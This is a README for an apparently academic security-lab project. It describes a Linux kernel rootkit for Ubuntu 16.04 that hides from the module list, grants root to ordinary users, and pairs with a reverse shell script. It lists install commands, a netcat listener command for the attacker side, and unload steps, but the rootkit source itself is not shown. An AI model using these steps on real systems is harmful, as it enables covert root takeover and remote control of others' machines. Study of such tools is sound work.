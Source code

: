 # Securitylab Project - Root Privileges Reverse Shell

## Team Member
Sittichok Thanomkulrat and Xianze Zhan

## Tested Environment
Ubuntu 16.04(64 bit) with Kernel 4.4.0

## What Does it do?
We implemented a rootkit module. It can hide itself from the module list and grant the root access for standard user after it has been installed. The non-root user can then run the reverse shell script to open a root reverse shell and connect back to the attacker. 

## File You May Care
- install_rootkit.sh
- reverse_shell.sh
- rootkit.c
- rootkit.h

## How to Load & Run? <br />
On target bot side: <br />
  make <br />
  sudo ./install_rootkit.sh <br />
  
On Attacker side: <br />
  nc -l -p <listen_port> -vvv <br />
  
Standard user on target side:<br />
  ./reverse_shell.sh <br />
You may modify the attacker server ip address & listen port in the reverse_shell script <br />

## How to Unload？<br />
  echo "unhide" > /proc/CS460/status<br />
  sudo rmmod rootkit

## Warning!!!<br/>
This project is designed for acedemic research and study only.<br /> 
Do Not use it against any unauthorised users in the real world! 
